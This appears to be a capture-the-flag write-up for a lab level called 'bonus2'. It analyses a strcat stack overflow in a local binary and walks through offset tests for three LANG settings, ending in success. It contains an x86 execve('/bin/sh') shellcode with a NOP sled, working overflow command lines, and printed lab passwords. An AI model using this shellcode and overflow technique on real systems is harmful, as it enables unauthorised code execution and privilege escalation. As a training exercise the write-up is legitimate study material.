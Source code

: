 # Bonus 2
*password : 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*

```
$ scp -P 4242 bonus2@192.168.56.108:bonus2 binary/
```

## Analyze

in greetuser() :
```
  if (language == 1) {
    local_4c = 0xc3767948;
    ...
  }
  else {
    if (language == 2) {
      local_4c = 0x64656f47;
      ...
    }
    else {
      if (language == 0) {
        local_4c = 0x6c6c6548;
        ...
      }
    }
  }
strcat(&local_4c,&stack0x00000004);
puts(&local_4c);
...
```

```
$ ./bonus2 test ok
Hello test
```

conclusion :
- language = 0
- local_4c = "Hello "
- &stack0x00000004 = av[1]

## Buffer overflow : strcat exploit

- find the correct length of the first parameter to overwrite all '/0' until the second parameter => `40`
- use the correct language : environment LANG (en, fi or nl)
- use the second parameter to launch the shellcode
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

## Test language = 0
- find the offset => `26`
```
$ /tmp/a.out
0xbffff83f
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 26 + "\x3f\xf8\xff\xbf"')
Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB?���
Segmentation fault (core dumped)
```
failed !

## Test language = 1
- find the offset => `14`

```
$ export LANG=fi
$ /tmp/a.out
0xbffff848
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 14 + "\x48\xf8\xff\xbf"')
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBH���
Segmentation fault (core dumped)
```
failed !

## Test language = 2
- find the offset => `23`
```
$ export LANG=nl
$ /tmp/a.out
0xbffff848
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 23 + "\x48\xf8\xff\xbf"')
Goedemiddag! BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBH���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
success !
